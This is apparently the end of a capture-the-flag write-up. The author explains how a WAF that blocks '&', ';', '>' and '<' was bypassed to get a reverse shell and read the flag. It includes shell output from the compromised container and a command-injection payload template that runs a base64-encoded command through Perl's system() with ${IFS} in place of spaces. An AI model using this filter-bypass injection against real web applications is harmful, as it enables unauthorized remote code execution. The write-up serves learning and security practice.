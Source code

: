 ```bash
dev
etc
flag_f4b9830a65d9e956
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www-data@b10b0dfad73d:/$ cat flag_f4b9830a65d9e956
cat flag_f4b9830a65d9e956
FLAG{Y0U_$(Byp4ssed)_th3_`waf`}
```

But it's not easy. Here are a few problems and how I conquer them.

### Problem 1: What program do we have?

We know that we need some program as an anchor to spawn a reverse shell. But what program do we have? We can use `which` to find out.

Consequently, we don't have python, that's sad since python is really powerful. But we still have bash (of course we have) and perl.

The problem is: `'&', ';', '>', '<'` has been banned! These are common characters in reverse shell payload.

### Problem 2: Bypassing the banned characters

OK so I know it's not easy to come up with this idea: we can use **base64 decode**! Since base64 decoding is good at preserving the whole data and since it is in "normal" characters, we can bypass the banned characters! So I use Perl to decode the base64 encoded payload, and we can use `system` function in perl, too!

Here's the final payload:

```bash
'$(perl${IFS}-MMIME::Base64${IFS}-e${IFS}"system(decode_base64('your_base64_encoded_payload'))")'
```

The shell successfully popped out, pwned! Phew, what a great challenge!

## Postscript

I think sometimes it's a good idea to solve the challenge in different ways. Coming up with unintended solution is always fun. For me, I would like to get the shell of every challenge if possible.
I think this challenge is really interesting and I really like it. I hope you like it, too. If you have any questions, please feel free to contact me. Thanks for reading!
